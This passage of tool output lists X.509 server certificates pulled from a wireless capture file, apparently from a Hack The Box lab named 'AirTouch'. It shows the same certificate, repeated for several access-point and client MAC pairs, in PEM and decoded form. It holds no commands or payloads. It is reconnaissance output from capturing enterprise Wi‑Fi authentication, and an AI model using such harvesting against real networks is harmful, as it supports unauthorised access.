        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to 28:6c:07:12:ee:a1 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-28:6c:07:12:ee:a1.cert.w7WT.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to c8:8a:9a:6f:f9:d2 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-c8:8a:9a:6f:f9:d2.cert.xKo9.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:aa:3f:d2 to 28:6c:07:12:ee:a1 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:aa:3f:d2-28:6c:07:12:ee:a1.cert.pWOK.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
MDIyNzE3MDc1NFoXDTM0MDIyNDE3MDc1NFowfDELMAkGA1UEBhMCRVMxDzANBgNV
BAcTBk1hZHJpZDERMA8GA1UEChMIQWlyVG91Y2gxDzANBgNVBAsTBlNlcnZlcjEU
MBIGA1UEAxMLQWlyVG91Y2ggQ0ExIjAgBgkqhkiG9w0BCQEWE3NlcnZlckBBaXJU
b3VjaC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDGApRsL1Gh
Dfb0uKaXQm7+3ccEUwLtQewHbezXaFy/0u3gmb9XKupVaHJVHKr6kauDseEnKvWY
7mhvutzzdgls3KCnPJLSmextOT+5Uoe8LvRoDfhDcByta9OitGIUoVD3FucFPORh
JS917B5+Sl2BY5c5H8hc/8wt0pswF2OE++2FzlOrkuC4/aG3TYLZf4tlLT8wnJje
cVSxl2Z6STENN9OoKJQ5nIdhFDhhj471Fo2y1fBY2pM90t1JQZJdPlXLS16I3KpG
9l1kO1GQigG3nKpTB9lhzOhjE6kna+YykMD5e8TkYz5TXL6doSNCD4H2cdZ6nSao
7atAgQJVvMeVAgMBAAGjgY8wgYwwEQYJYIZIAYb4QgEBBAQDAgZAMAsGA1UdDwQE
AwIF4DAqBgNVHSUEIzAhBgorBgEEAYI3CgMDBglghkgBhvhCBAEGCCsGAQUFBwMB
MB0GA1UdDgQWBBQRq0Ftkn5OBDBNSNH86IC44hsHmjAfBgNVHSMEGDAWgBRnB0B7
qa/Iv+6VDjUMgJUionockTANBgkqhkiG9w0BAQsFAAOCAQEAWf8nBv7xq7rrGj+P
rvYlMaLoCdP7RRd1giSayn+ZY7qBeONdVOtUoynnTLWcv3fTVwcHhHCHUE7Ogw6L
wd95YQiYJ8Pqj1L4G5e7sW2tJRGd/fRZoGl56WU7t9KllZtMRbm4rId8FftYsaFl
8qznyLoRAfZLkIkycWRdIBru/6p/rvvxwyZGXT/cV5JFI6i9u54XUA6fYw2v8vJZ
fOJqWJGHRDS7ZeJBwVfCZuizrEwhnaJzZ6TNY9hXVqmWQVt4RgQdsIHKyVnkekt2
Fid4+Z9vAtafLYYkfNI+24LvLkP2+SHXz9h643acO6gjFUJcPvi45rId24gOKLza
LjUr5g==
-----END CERTIFICATE-----


Certificate from ac:8b:a9:f3:a1:13 to 28:6c:07:12:ee:f3 
Saved certificate in the file /tmp/certs/scanc44-01.cap-ac:8b:a9:f3:a1:13-28:6c:07:12:ee:f3.cert.ogv3.der 
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=ES, ST=Madrid, L=Madrid, O=AirTouch, OU=Certificate Authority, CN=AirTouch CA, emailAddress=ca@AirTouch.htb
        Validity
            Not Before: Feb 27 17:07:54 2024 GMT
            Not After : Feb 24 17:07:54 2034 GMT
        Subject: C=ES, L=Madrid, O=AirTouch, OU=Server, CN=AirTouch CA, emailAddress=server@AirTouch.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:c6:02:94:6c:2f:51:a1:0d:f6:f4:b8:a6:97:42:
                    6e:fe:dd:c7:04:53:02:ed:41:ec:07:6d:ec:d7:68:
                    5c:bf:d2:ed:e0:99:bf:57:2a:ea:55:68:72:55:1c:
                    aa:fa:91:ab:83:b1:e1:27:2a:f5:98:ee:68:6f:ba:
                    dc:f3:76:09:6c:dc:a0:a7:3c:92:d2:99:ec:6d:39:
                    3f:b9:52:87:bc:2e:f4:68:0d:f8:43:70:1c:ad:6b:
                    d3:a2:b4:62:14:a1:50:f7:16:e7:05:3c:e4:61:25:
                    2f:75:ec:1e:7e:4a:5d:81:63:97:39:1f:c8:5c:ff:
                    cc:2d:d2:9b:30:17:63:84:fb:ed:85:ce:53:ab:92:
                    e0:b8:fd:a1:b7:4d:82:d9:7f:8b:65:2d:3f:30:9c:
                    98:de:71:54:b1:97:66:7a:49:31:0d:37:d3:a8:28:
                    94:39:9c:87:61:14:38:61:8f:8e:f5:16:8d:b2:d5:
                    f0:58:da:93:3d:d2:dd:49:41:92:5d:3e:55:cb:4b:
                    5e:88:dc:aa:46:f6:5d:64:3b:51:90:8a:01:b7:9c:
                    aa:53:07:d9:61:cc:e8:63:13:a9:27:6b:e6:32:90:
                    c0:f9:7b:c4:e4:63:3e:53:5c:be:9d:a1:23:42:0f:
                    81:f6:71:d6:7a:9d:26:a8:ed:ab:40:81:02:55:bc:
                    c7:95
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            Netscape Cert Type: 
                SSL Server
            X509v3 Key Usage: 
                Digital Signature, Non Repudiation, Key Encipherment
            X509v3 Extended Key Usage: 
                Microsoft Server Gated Crypto, Netscape Server Gated Crypto, TLS Web Server Authentication
            X509v3 Subject Key Identifier: 
                11:AB:41:6D:92:7E:4E:04:30:4D:48:D1:FC:E8:80:B8:E2:1B:07:9A
            X509v3 Authority Key Identifier: 
                67:07:40:7B:A9:AF:C8:BF:EE:95:0E:35:0C:80:95:22:A2:7A:1C:91
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        59:ff:27:06:fe:f1:ab:ba:eb:1a:3f:8f:ae:f6:25:31:a2:e8:
        09:d3:fb:45:17:75:82:24:9a:ca:7f:99:63:ba:81:78:e3:5d:
        54:eb:54:a3:29:e7:4c:b5:9c:bf:77:d3:57:07:07:84:70:87:
        50:4e:ce:83:0e:8b:c1:df:79:61:08:98:27:c3:ea:8f:52:f8:
        1b:97:bb:b1:6d:ad:25:11:9d:fd:f4:59:a0:69:79:e9:65:3b:
        b7:d2:a5:95:9b:4c:45:b9:b8:ac:87:7c:15:fb:58:b1:a1:65:
        f2:ac:e7:c8:ba:11:01:f6:4b:90:89:32:71:64:5d:20:1a:ee:
        ff:aa:7f:ae:fb:f1:c3:26:46:5d:3f:dc:57:92:45:23:a8:bd:
        bb:9e:17:50:0e:9f:63:0d:af:f2:f2:59:7c:e2:6a:58:91:87:
        44:34:bb:65:e2:41:c1:57:c2:66:e8:b3:ac:4c:21:9d:a2:73:
        67:a4:cd:63:d8:57:56:a9:96:41:5b:78:46:04:1d:b0:81:ca:
        c9:59:e4:7a:4b:76:16:27:78:f9:9f:6f:02:d6:9f:2d:86:24:
        7c:d2:3e:db:82:ef:2e:43:f6:f9:21:d7:cf:d8:7a:e3:76:9c:
        3b:a8:23:15:42:5c:3e:f8:b8:e6:b2:1d:db:88:0e:28:bc:da:
        2e:35:2b:e6
-----BEGIN CERTIFICATE-----
MIIEIDCCAwigAwIBAgIBAjANBgkqhkiG9w0BAQsFADCBmDELMAkGA1UEBhMCRVMx
DzANBgNVBAgTBk1hZHJpZDEPMA0GA1UEBxMGTWFkcmlkMREwDwYDVQQKEwhBaXJU
b3VjaDEeMBwGA1UECxMVQ2VydGlmaWNhdGUgQXV0aG9yaXR5MRQwEgYDVQQDEwtB
aXJUb3VjaCBDQTEeMBwGCSqGSIb3DQEJARYPY2FAQWlyVG91Y2guaHRiMB4XDTI0
